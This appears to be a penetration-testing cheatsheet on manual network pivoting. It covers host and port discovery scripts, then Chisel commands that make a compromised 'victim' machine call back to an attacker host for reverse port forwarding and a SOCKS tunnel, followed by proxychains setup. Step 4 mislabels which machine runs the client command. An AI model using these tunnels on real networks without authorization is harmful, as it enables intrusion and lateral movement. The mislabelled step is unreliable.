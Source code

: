 # Pivoting

Pivoting is a crucial technique in ethical hacking and penetration testing, allowing attackers to extend their reach within a network. The provided Cheatsheet outlines the process of pivoting manually, without relying on tools like Metasploit. Let's break down the steps:

#### 1. Discover Active Machines

* Use the `host_discovery.sh` script to ping all IPs on the specified network.
*   Example:

    ```bash
    bash host_discovery.sh 10.10.2
    ```

#### 2. Discover Open Ports

* Utilize the `port_discovery.sh` script to discover open ports on the active machines.
*   Example:

    ```bash
    bash port_discovery.sh <IP_ADDRESS>
    ```

#### 3. Port Forwarding with Chisel

* Download and use Chisel for port forwarding. Transfer the Chisel binary to the victim machine.
*   On the attacker's machine:

    ```bash
    ./chisel server --reverse -p 1234
    ```
*   On the victim machine:

    ```bash
    ./chisel client <ATTACKER_IP>:1234 R:80:<TARGET_IP>:80
    ```

#### 4. Tunneling Networks

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

* Create a tunnel between networks using Chisel for network pivoting.
*   On the attacker's machine:

    ```bash
    ./chisel client <ATTACKER_IP>:1234 R:socks
    ```
* Modify `/etc/proxychains.conf` to use the created tunnel.

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption><p>uncomment this line</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption><p>in the end of the file </p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption><p>Result</p></figcaption></figure>

#### Automation with Pivoting\_Enum Bash Script

* Transfer and execute the `pivoting.sh` script on the victim machine.
*   Example:

    ```bash
    bash pivoting.sh NETWORK
    ```

